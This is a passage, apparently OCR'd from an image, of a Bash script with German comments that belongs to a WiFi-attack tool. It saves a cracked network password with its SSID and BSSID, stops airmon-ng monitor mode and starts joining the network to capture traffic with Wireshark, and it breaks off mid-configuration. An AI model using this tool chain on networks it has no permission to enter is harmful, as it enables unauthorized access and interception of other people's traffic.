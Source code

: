     # Prüfe, ob ein Passwort gefunden wurde
    if [ -f "$OUTPUT_DIR/password_$ssid.txt" ]; then
        local password=$(cat "$OUTPUT_DIR/password_$ssid.txt")
        log "${GREEN}Passwort für $ssid gefunden: $password${NC}"
        
        # Speichere die Netzwerkinformationen
        echo "SSID: $ssid" > "$OUTPUT_DIR/${ssid}_info.txt"
        echo "BSSID: $bssid" >> "$OUTPUT_DIR/${ssid}_info.txt"
        echo "Passwort: $password" >> "$OUTPUT_DIR/${ssid}_info.txt"
        
        echo "$password"
    else
        log "${RED}Kein Passwort für $ssid gefunden.${NC}"
        return 1
    fi
}


-----

# Mit WLAN verbinden und Wireshark starten


connect_and_capture() {
    local ssid=$1
    local password=$2
    local mon_interface=$3
    
    # Beende den Monitor-Modus
    log "${YELLOW}Beende Monitor-Modus für die Verbindung...${NC}"
    airmon-ng stop $mon_interface > /dev/null 2>&1
    
    # Starte NetworkManager wieder
    log "${YELLOW}Starte NetworkManager...${NC}"
    systemctl start NetworkManager
    sleep 5
    
    # Verbinde mit dem WLAN
    log "${YELLOW}Verbinde mit WLAN: $ssid${NC}"
    
    # Erstelle temporäre Verbindungsdatei für nmcli
    cat > /tmp/wifi_connection.conf << EOF
[connection]
id=$ssid
type=wifi
